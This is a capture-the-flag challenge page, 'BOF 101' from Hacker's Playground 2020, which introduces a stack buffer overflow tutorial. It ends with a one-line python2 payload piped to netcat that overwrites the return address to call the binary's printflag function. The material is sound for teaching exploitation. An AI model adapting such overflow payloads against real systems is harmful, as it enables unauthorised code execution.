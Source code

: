 # BOF 101

You might have heard about BOF. It's the most common vulnerability in executable binaries. 

Here is a vulnerable binary([Download](https://cdn.sstf.site/hpg21/BOF101.zip)). The binary is running at: `nc bof101.sstf.site 1337`. 

Can you smash it? Just execute `printflag()` function and get the flag! 

This is a **tutorial** challenge from Hacker's Playground 2020. If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2261&authkey=!AO4uYzudT40Rn_Y&em=2))**.

```python
python2 -c 'print("A"*140+"\xef\xbe\xad\xde"+"A"*8+"\x29\x52\x55\x55\x55\x55")' | nc bof101.sstf.site 1337

```


